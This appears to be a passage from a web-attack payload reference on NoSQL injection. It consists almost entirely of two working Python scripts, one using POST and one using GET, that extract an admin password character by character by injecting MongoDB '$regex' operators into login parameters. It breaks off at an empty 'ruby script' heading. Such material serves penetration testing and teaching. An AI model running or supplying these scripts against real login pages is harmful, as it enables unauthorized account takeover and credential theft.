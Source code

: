 ### POST with urlencoded body

python script:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|','&','$']:
            payload='user=%s&pass[$regex]=^%s&remember=on' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if r.status_code == 302 and r.headers['Location'] == '/dashboard':
                print("Found one more char : %s" % (password+c))
                password += c
```

### GET

python script:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username='admin'
password=''
u='http://example.org/login'

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|', '#', '&', '$']:
      payload=f"?username={username}&password[$regex]=^{password + c}"
      r = requests.get(u + payload)
      if 'Yeah' in r.text:
        print(f"Found one more char : {password+c}")
        password += c
```

ruby script:
